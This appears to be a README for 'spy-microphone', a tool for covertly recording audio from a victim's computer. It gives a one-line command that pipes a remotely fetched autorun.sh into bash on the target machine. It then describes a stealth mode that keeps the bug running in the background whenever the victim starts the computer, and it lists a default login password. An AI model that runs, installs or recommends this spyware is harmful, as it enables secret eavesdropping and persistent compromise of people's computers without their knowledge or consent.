 
   For use spy-microphone please follow instructions <br><br>

   Easy remote command for spy <br>
   Open the terminal of any computer want to spy and run this: <br>
   bash <(curl -s https://raw.githubusercontent.com/makdosx/spy-microphone/master/shell/autorun.sh) <br><br>

    i) Run the file autorun.sh in  the computer of victim and set your params 
       Stealth Mode <br>
         With this feature the bug will continue if it works whenever the victim opens the computer 
         automatically by running in the background.
         
  ii) import the sql file in to your database 


  iii) The spy-microphone ready to use 
  
   Default password for login is: spymic

![1](png/1.png) <br> <br> <br> 

![2](png/2.png) <br> <br> <br> 

![3](png/3.png) <br> <br> <br> 

![4](png/4.png) <br> <br> <br> 

![6](png/6.png) <br> <br> <br> 

![0](png/0.jpg) 
